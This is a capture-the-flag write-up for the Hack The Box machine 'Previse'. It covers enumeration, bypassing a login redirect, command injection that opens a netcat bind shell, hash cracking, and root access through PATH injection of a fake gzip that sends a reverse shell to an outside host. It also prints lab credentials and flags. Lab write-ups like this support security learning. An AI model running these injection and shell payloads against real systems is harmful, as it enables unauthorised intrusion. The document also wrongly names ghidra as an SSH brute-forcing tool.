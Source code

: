 Previse

# **Previse**
##  Nmap scan results
```bash
nmap -A -Pn 10.10.11.104
```
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 03:39 EDT
Nmap scan report for 10.10.11.104
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.58 seconds
```
We can see from this nmap scan that this machine is running SSH and HTTP.  
SSH can be bruteforced via tools like `ghidra` but we do not know any username or password, so it is better to start off with HTTP service running on port 80.

Since default ip `10.10.11.104` redirects to `http://10.10.11.104/login.php`, we understand that this website is running PHP. Using tools like `wfuzz OR ffuf OR dirb OR dirbuster OR gobuster` can help us find other PHP pages. I will pick ffuf because it is faster.

```bash┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.11.104/FUZZ -e .php -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

                        [Status: 302, Size: 2801, Words: 737, Lines: 72]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15400, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 6075, Words: 1995, Lines: 131]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
status.php              [Status: 302, Size: 2970, Words: 749, Lines: 75]
:: Progress: [9228/9228] :: Job [1/1] :: 320 req/sec :: Duration: [0:00:39] :: Errors: 0 ::

```
Here interesting pages are:
(200 OK)
```
config.php, 
nav.php,
```
(302 Redirect)
```
files.php, 
download.php, 
accounts.php
```

config.php is empty page with 0 length, but nav.php shows some valuable information about navigation on the site:
![eb28c0d0a939136a416287a2581901e9.png](../_resources/0ad7041589084a77b78c5c49c57df554.png)
But every link on this navigation page redirects to the default login page `http://10.10.11.104/login.php`

Clicking files.php on this page and intercepting the request via burp suite shows that server actually sends us `files.php` but it then immediately redirects to `login.php` so we do not see files.php in our browser.

Below is a part of `files.php` source code from burp suite:
![46278d7b74d70cfc6dde148438019737.png](../_resources/a256828fd3c94fdb8175d40f2264df6f.png)

We can also access status.php to see there is MySQL service running in the background and there are 10 admins and 2 uploaded files on this website.
![2e3f6bd63a9aa6d87add75ea4dfff8e5.png](../_resources/658bee3583f847589f631c2bf1c2c905.png)

Accounts.php is interesting. To bypass 302 redirection on this site we can simply change the HTTP header from `302 Found` to `200 OK`. (Notice the change in the first line)
![235246d5eea4470bb2ff122075a12af1.png](../_resources/5308ec2b5ed74394a25312ad15faa879.png)
![62d51f804153c9dbd1cdba9634208bcd.png](../_resources/c0b0ab6a3cb24d00aecc166cff5a8424.png)
From this accounts.php page I created an account with `id:ubuntu and password:linux`

Logging in with these credentials gives us access to management panel.
![7d362d2d4853370c1f2c099aad1f8577.png](../_resources/ea441bcd7afd489ca3f9b907e1a73a7b.png)

From this page we can download both files. Unzipping sitebackup.zip we can access config.php where we can find a username and password stored.
![d69233d3c34d9d46fa75246ca608af82.png](../_resources/59370de0bcc14d4191c9e4063206f887.png)
![eb07f555ecc2f6e7e49ae13fe376c316.png](../_resources/9791b57d452645a5a455e115baf791bb.png)

I tried to login SSH with these `root:mySQL_p@ssw0rd!:)` credentials but without success.

Another file on that zip named `logs.php` shows a code that may be vulnerable to ` code injecton` because there seems to be no user input sanitization.
![bfd49c8e0d79f3ea100d8cd6683517b1.png](../_resources/dc39b2a5a9e24664b638a942ef28af3b.png)

We can try to inject code in `file_logs.php` to gain a shell. To do this we close echo command with `&` and then write our own shell command (nc)
![b62f71ee3f1ce236fa822940fe9e0224.png](../_resources/69c57e407eb74b32abf5c27cd2294bf2.png)

Final payload:
`echo $output & nc -lvnp 1234 -e /bin/bash`

URL encoded payload to be sent via BURP:
`%26nc%20-lvnp%201234%20-e%20%2Fbin%2Fbash`

Below is an image of delim=comma+our URL-encoded payload. Forwarding this request executes `nc -lvnp 1234 -e /bin/bash` command on this web server, so it starts listening to ANY on port 1234, a.k.a. bind shell.
![77c951f35e5044e0d8e252eb2abd5905.png](../_resources/bd43c5308eef45f591994c7029a199ab.png)

We can now connect to its 1234th port with this command in our kali box:
`nc 10.10.11.104 1234`
![7b29117d73f514c4a487f120338d8e90.png](../_resources/34834d2cde084928ab6591722a8d0392.png)

To make the shell more interactive, use the command:
`python -c "import pty;pty.spawn('/bin/bash')"
`
![5e708dfc358535b87213a414601eebae.png](../_resources/11354d2f0ca84e75b740eeb83a43432b.png)

Then using previously discovered credentials `root:mySQL_p@ssw0rd!:)`  we can dump accounts table:
![76a74b29ea9a352f97b02c9bd40461c6.png](../_resources/837d4d567ec64a9e8ede492f24e2252d.png)

Note the hash of the user m4lwhere: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

Cracking it with hashcat `hashcat -m 500 hashson.txt /usr/share/wordlists/rockyou.txt ` gives cleartext password:`ilovecody112235!`

Using `m4lwhere:ilovecody112235!` to ssh into the machine and reading user.txt `e8a8e264c58be755633bacd03c9624d5`
![1303b4a1d5771e184fd4b531b627c87c.png](../_resources/fb1fb4a0ab0c47aa90861b4c91a42898.png)

Privilege escalation:
![dfd6b0df2f6fd31728a7266d9cae4066.png](../_resources/fc64a43b63eb4a50a395babe38277a22.png)

from `sudo -l` command we see we can run "gzip" as root. Linux by default calls gzip from `/bin/gzip` (we can see that by running `which gzip`)

Using path injection, we can create our own gzip executable and make this script call our gzip instead.
![7774b0de5fecaf6108cb4b1bac2d0a63.png](../_resources/1f163b6179b6471494ffefce601dea4a.png)

Commands:
```bash
cd /tmp
echo "nc 10.10.15.9 1547 -e /bin/bash" > gzip
chmod 777 gzip
export PATH=/tmp:$PATH
```

Now when this script calls gzip, it will execute `/tmp/gzip
` (not default /bin/gzip)

Run this script as sudo:
![98ee0d97a709e7a43d349ed0171b667b.png](../_resources/fd72bd51403541e5af7ff9a793daa112.png)

And catch the incoming connection request with netcat: `nc -lvnp 1547`
![ff92da0731a4275a62afbb2be553c39b.png](../_resources/c87bc83202a94e39b4b414b747038131.png)
Root flag: `2ac1090ac49d3e72b94dcc2cdcae0ea2`

Batuhan Kahraman, 05.09.2021

![9c9897434dde73d96d1b75411d4dc50e.png](../_resources/6e4187b204be4189bd14c1e9fbe38abe.png)
